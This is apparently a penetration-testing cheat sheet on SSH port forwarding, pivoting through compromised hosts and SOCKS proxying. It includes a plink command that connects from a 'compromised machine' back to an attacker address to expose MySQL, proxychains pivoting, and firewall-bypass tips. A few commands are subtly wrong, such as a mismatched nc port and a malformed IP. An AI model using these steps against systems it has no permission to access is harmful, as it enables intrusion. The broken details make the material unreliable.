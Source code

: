 # SSH Tunneling/Forwarding

## Ipconfig

* looking for machines that have at least THREE network interfaces \(loopback, eth0, and eth1\)
* these machines are connected to other networks, so use them to pivot

### Windows

```bash
ipconfig /all
route print
arp -a
```

### Linux

```bash
ifconfig
ifconfig -a
arp -a
```

## SSH Tunneling - Port forwarding on SSH

### Use Cases

* encrypt traffic that uses unencrypted protocols, like VNC, IMAP, IRC.
* on a public network and want to encrypt all your http traffic
* want to bypass firewall rules

### Local Port Forwarding

* make Facebook available on address localhost:8080

```bash
ssh -L 8080:www.facebook.com:80 localhost
```

* you can also forward ports like this

```bash
ssh username@<remote-machine> -L localport:target-ip:target-port
```

```bash
ssh [username@192.168.1.111](mailto:username@192.168.1.111) -L 5000:192.168.1.222:5000
```

now this port will be available on the localhost, go to

```bash
nc localhost:10000
```

### Remote Port Forwarding

* imagine that a compromised machine, and that machine has MYSQL running but it is only accessible for localhost
* can't access it because you have a really crappy shell, just forward that port to our attacking machine
* the steps are as following

```bash
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```

* by the way, plink is a ssh-client for windows that can be run from the terminal
* the ip of the attacking machine is 111.111.111.111
* Step 1: on our compromised machine

```bash
plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
```

* Step 2: check netstat on our attacking machine, should see something like this

```bash
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      19392/sshd: root@pt
```

* that means that we can connect to that port on the attacking machine from the attacking machine
* Step 3: connect using the following command

```bash
mysql -u root -p -h 127.0.0.1 --port=3307
```

### Dynamic port forwarding

* can be used to dynamically forward all traffic from a specific application
* with remote and local port forwarding you are only forwarding a single port
* can be a hassle if the target machine has 10 ports open that you want to connect to
* instead we can use a dynamic port forwarding technique
* set up the tunnel like this
* after it is set up do not run any commands in that session
* connect to the machine we want to pivot from

```bash
ssh -D 9050 [user@192.168.1.111](mailto:user@192.168.1.111)
```

* since proxychains uses 9050 by defualt \(the default port for tor\) configuring Proxychains is not needed
* to change the port do that in /etc/proxychains.conf

```bash
proxychains nc 192.168.2.222 21
```

* to supress all the logs from Proxychains, configure it in the config file

## Tunnel all HTTP/HTTPS Traffic Through SSH

* need two machines
* Machine1 - 111.111.1111.111 - the server that works as the proxy
* Machine2 - the computer with the web browser
* check out what the public IP address is, so that we know the IP address before and after so we can verify that it works
* on Machine2 we run

```bash
ssh -D localhost:9999 [root@111.111.111.111](mailto:root@111.111.111.111)
#or run with -N flag
ssh -D localhost:9999 [root@111.111.111.111](mailto:root@111.111.111.111) -N
```

* now go to

```bash
Firefox/settings/advanced/network and SOCKS 
add 127.0.0.1 and port 9999
```

* notice that this setup probably leaks DNS, so don't use it if  opsec is needed
* to fix the DNS-leak
* go to

```bash
about:config in firefox #(in the addressbar) 
#then look for 
network.proxy.socks_remote_dns #and switch it to TRUE
```

* now you can check [https://ipleak.net/](https://ipleak.net/)
* it still says that we have WebRTC leaks, in order to solve this go to

```bash
about:config #and set the following to FALSE: 
media.peerconnection.enabled
```

## References

* This is a good video-explanation
* [https://www.youtube.com/watch?v=c0XiaNAkjJA](https://www.youtube.com/watch?v=c0XiaNAkjJA)
* [https://www.offensive-security.com/metasploit-unleashed/pivoting/](https://www.offensive-security.com/metasploit-unleashed/pivoting/)
* [http://ways2hack.com/how-to-do-pivoting-attack/](http://ways2hack.com/how-to-do-pivoting-attack/)

